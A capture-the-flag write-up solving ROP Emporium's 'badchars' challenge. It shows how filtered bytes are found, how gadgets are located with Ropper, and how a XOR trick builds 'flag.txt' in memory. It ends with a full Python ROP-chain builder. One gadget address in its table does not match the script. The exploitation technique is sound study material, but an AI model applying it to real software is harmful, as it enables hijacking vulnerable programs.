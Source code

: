 # badchars
The challenge is available [here](https://ropemporium.com/challenge/badchars.html).

## Black-Box Test
The current challenge is actually identical to the previous one, except for the fact that there are some characters we cannot use in the ROP chain. The instructions tell us that the program reveals what those characters are, so let's get started.

```
./badchars32
```
![](./0.png)

So, we are prohibited from using the characters `"x"`, `"g"`, `"a"`, and `"."`. Let's try to see what happens to them when they enter the stack by using all four as a return address (which will obviously crash the program, and when we check where it failed, we will expect to see these characters)

```
perl -e 'print "X"x44 . "xga."' | ./badchars32
```
```
sudo dmesg -k | tail -2
```
![](./1.png)

This means that each of the forbidden characters gets converted to `\xeb` before being written to the stack, and we will need to bypass this.

## In-depth research
This challenge is indeed almost identical to the previous one, so there's no need for an extensive presentation here. I will show how to find the components we need for the ROP chain and the idea I'm going to use.

Let's start by finding where `print_file` is located:
```
rabin2 -i badchars32
```
![](./2.png)

Again, we will use the `.data` section to store the string "flag.txt."

```
readelf -S badchars32 | grep -e '[.]data'
```
![](./3.png)

The more artistic part of this challenge was finding the suitable gadgets and thinking of an idea based on the conditions. Still, there are some general guidelines we already know: we need gadgets that will `pop` values into registers and gadgets that will `mov` values from registers to memory. There also needs to be a correspondence between the registers, especially for the one used to hold the address in the `mov-gadget`. Additionally, we were given a hint to consider using the `XOR` operation. After some research and thought, I found the following gadgets in the picture. Right after this, I will present the idea for how to use them.

Note: Before searching for the gadgets, you need to update Ropper with the forbidden bytes. This is done in Ropper using the command `badbytes`.

```
python3 ~/ropper/Ropper.py
```
```
file badchars32
```
```
badbytes 7867612e
```
```
search pop
```
```
search /1/ mov [%], %
```
```
search /1/ xor
```
![](./4.png)

The general idea is that the string `"flag.txt"` will be entered in parts (like previous challenge). The difference this time is that the characters `"a"`, `"g"`, and `"."` will not be entered directly; instead, they will be entered as different characters, such that when we apply `XOR` with the value `0x01` (just for convenience), we will get the corresponding letter. For example, if we input `"AAA\x60"` and then apply `\x01 ^ \x60`, we get `\x61 (='a')` (So `"AAA\x60"` -> `"AAAa"`). After we handle all the necessary indexes in the current part of the string, we will input the next part in the same way.

From the gadgets we've collected, the usage of the registers is as follows:

* `EBP` will hold the address of the byte on which we will perform `XOR`.
* `EBX` will always hold the value `0x01` in the low byte (`BL`) for `XOR`.
* `ESI` will hold the characters of the string while transitioning to the `.data` section.
* `EDI` will hold the address of the `.data` section where we will transfer the characters of the string.

To summarize:
* To create `"flag"`:
    * We will input `"fl\x60f"`
    * Perform `0x01` XOR `0x60` => `"a"`
    * Perform `0x01` XOR `"f"` => `"g"`
* To create `".txt"`:
    * We will input `"\x2ftyt"`
    * Perform `0x01` XOR `0x2f` => `"."`
    * Perform `0x01` XOR `"y"` => `"x"`

And that was the idea. Now let's proceed to the complete solution.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop_bx        | Gadget          | 0x0804839d | pop ebx; ret;                                                     |
| pop_bp        | Gadget          | 0x080585bb | pop ebp; ret;                                                     |
| pop_si_di_bp  | Gadget          | 0x080485b9 | pop esi; pop edi; pop ebp; ret;                                   |
| mov2memory    | Gadget          | 0x0804854f | mov dword ptr [edi], esi; ret;                                    |
| xor2memory    | Gadget          | 0x08048547 | xor byte ptr [ebp], bl; ret;                                      |

And the next table describes the ROP chain itself:

| No | Chain Link                                                  | Note                                                                                        |
|----|-------------------------------------------------------------|---------------------------------------------------------------------------------------------|
| 1  | 44 garbage bytes                                            |                                                                                             |
| 2  | pop_bx, 0x01010101                                          | The lower byte will be used later for XOR operations.                                       |
| 3  | pop_si_di_bp, `"fl\x60f"`, memory4string, memory4string+2   | Each update of the EBP register sets it to the address of the next byte that will be XORed. |
| 4  | mov2memory                                                  | After this operation, the string will be `"fl\x60f"`.                                       |
| 5  | xor2memory                                                  | After this operation, the string will be `"flaf"`.                                          |
| 6  | pop_bp, memory4string+3                                     |                                                                                             |
| 7  | xor2memory                                                  | After this operation, the string will be `"flag"`.                                          |
| 8  | pop_si_di_bp, `"\x2ftyt"`, memory4string+4, memory4string+4 |                                                                                             |
| 9  | mov2memory                                                  | After this operation, the string will be `"flag\x2ftyt"`.                                   |
| 10 | xor2memory                                                  | After this operation, the string will be `"flag.tyt"`.                                      |
| 11 | pop_bp, memory4string+6                                     |                                                                                             |
| 12 | xor2memory                                                  | After this operation, the string will be `"flag.txt"`.                                      |
| 13 | print_file, "XXXX", memory4string                           |                                                                                             |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer   = b"X"*44

print_file    = little_endian(0x080483d0)

memory4string = 0x0804a018

pop_bx        = little_endian(0x0804839d)
pop_bp        = little_endian(0x080485bb)
pop_si_di_bp  = little_endian(0x080485b9)
mov2memory    = little_endian(0x0804854f)
xor2memory    = little_endian(0x08048547) 

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop_bx + b"\x01\x01\x01\x01"
ROP_Chain += pop_si_di_bp + b"fl\x60f" + little_endian(memory4string) + little_endian(memory4string+2)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+3)
ROP_Chain += xor2memory
ROP_Chain += pop_si_di_bp + b"\x2ftyt" + little_endian(memory4string+4) + little_endian(memory4string+4)
ROP_Chain += mov2memory
ROP_Chain += xor2memory
ROP_Chain += pop_bp + little_endian(memory4string+6)
ROP_Chain += xor2memory
ROP_Chain += print_file + b"XXXX" + little_endian(memory4string)

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./badchars32
```
![](./5.png)

Heyda!!!
